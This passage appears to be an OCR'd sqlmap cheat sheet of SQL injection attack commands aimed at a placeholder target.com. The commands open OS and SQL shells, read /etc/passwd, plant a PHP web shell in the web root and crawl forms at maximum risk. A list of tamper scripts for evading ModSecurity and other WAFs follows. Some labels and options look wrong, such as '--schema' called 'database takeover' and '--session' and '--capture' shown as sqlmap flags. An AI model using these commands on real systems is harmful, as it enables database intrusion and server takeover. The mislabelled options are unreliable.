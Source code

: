 ### Advanced Features
```bash
# OS Shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# SQL Shell
sqlmap -u "http://target.com/page.php?id=1" --sql-shell

# File read/write
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# Database takeover
sqlmap -u "http://target.com/page.php?id=1" --schema

# Vulnerable parameter finder
sqlmap -u "http://target.com/page.php" --forms --batch --crawl=10 --cookie="security=low; PHPSESSID=a" --random-agent --level=5 --risk=3
```

### Popular Tamper Scripts
```bash
# base64encode       - Base64 encodes all characters in payload
# between            - Replaces greater/less than with 'NOT BETWEEN 0 AND #'
# charencode         - URL encodes all characters in payload
# charunicodeencode  - Unicode-URL encodes non-encoded characters
# concat2concatws    - Replaces 'CONCAT(' with 'CONCAT_WS(0x20,'
# equaltolike        - Replaces all '=' with 'LIKE'
# space2comment      - Replaces spaces with comments '/**/'
# space2hash         - Replaces spaces with # followed by random string and new line
# space2morehash     - Replaces spaces with combination of comment and hash
# space2plus         - Replaces spaces with '+'
# unionalltounion    - Replaces 'UNION ALL SELECT' with 'UNION SELECT'
# securesphere       - Specific bypasses for SecureSphere WAF
# varnish            - Adds an HTTP header 'X-originating-IP' for Varnish XSS
# modsec             - Designed to evade ModSecurity WAF
```

### SQLMap Output
```bash
# Verbose output
sqlmap -u "http://target.com/page.php?id=1" -v 3

# Output to file
sqlmap -u "http://target.com/page.php?id=1" -o --output-dir=/path/to/output

# Resume interrupted scan
sqlmap -u "http://target.com/page.php?id=1" --session=previous_session

# Save traffic to PCAP
sqlmap -u "http://target.com/page.php?id=1" --capture=traffic.pcap
```
